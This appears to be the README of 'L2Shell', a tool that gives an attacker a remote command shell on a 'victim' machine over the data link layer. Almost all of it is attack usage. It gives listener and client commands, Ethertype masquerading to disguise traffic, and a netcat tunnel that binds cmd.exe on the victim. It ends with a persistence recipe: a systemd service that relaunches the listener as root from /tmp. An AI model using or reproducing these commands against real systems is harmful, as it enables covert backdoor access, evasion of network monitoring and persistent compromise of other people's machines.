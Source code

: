 # L2Shell
L2Shell is an opensource tool used for communications via data link layer.
This script should work for both windows and linux systems.

### Requirements
- pcap
- scapy

## L2Shell Usage
```
python l2shell.py -h
```

### On victim machine:
```
python l2shell.py -l -a <attacker_id> -s <session_id>
```

### On Attacker machine
```
python l2shell.py -c -a <attacker_id> -s <session_id>
```

### Sending command (from attacker host)
```
> <command>
```

### enable options (from attacker host)
```
> enable options
```

### Changing framesize (victim)
```
python l2shell.py -l -f <frame_size> -a <attacker_id> -s <session_id>
```

### Changing chunked request delay (victim)
```
python l2shell.py -l -d <delay> -a <attacker_id> -s <session_id>
```

### Connect to Victim via Mac address - Victim responds with broadcasts
```
python l2shell.py -c/-l -m <aa:aa:aa:aa:aa:aa> -a <attacker_id> -s <session_id>
```

### Change interface
```
python l2shell.py -c/-l -a <attacker_id> -s <session_id> -i <interface guid>
```

### setup interface
```
python l2shell.py -c -a <attacker_id> -s <session_id> -si
```

### Ethertype Masquerading 
```
python l2shell.py -c -a <attacker_id> -s <session_id> -et <0x0000-0xFFFF>
python l2shell.py -l -a <attacker_id> -s <session_id> -et <0x0000-0xFFFF>
python l2shell.py -c -a <attacker_id> -s <session_id> -et <0x0000-0xFFFF> -p
```

## L2Tunnel - Tunneling Netcat
### Attacker Machine
```
python l2shell.py -c -a <attacker_id> -s <session_id> -p
```
```
ncat.exe 127.0.0.1 1111 --source-port 2223 -u
```
### Victim Node Machine
```
python l2shell.py -l -a <attacker_id> -s <session_id> -p
```
```
ncat.exe -lvnp 2223 -u -e cmd.exe
```
`note: The proxy option [-p] [--proxy] opens local ports 1111 and 2222`

## Linux Persistence via Service
```
/etc/systemd/system
sudo nano l2service.server
```
```
[Unit]
Description=L2Shell Listener Service
After=network.target

[Service]
ExecStart=python3 /tmp/L2Shell-main/l2shell.py -l -a att123 -s sess123
Restart=always
User=root

[Install]
WantedBy=multi-user.target
```
### Now enable the service
```
sudo systemctl daemon-reload
sudo systemctl start l2service.service
sudo systemctl enable l2service.service
```
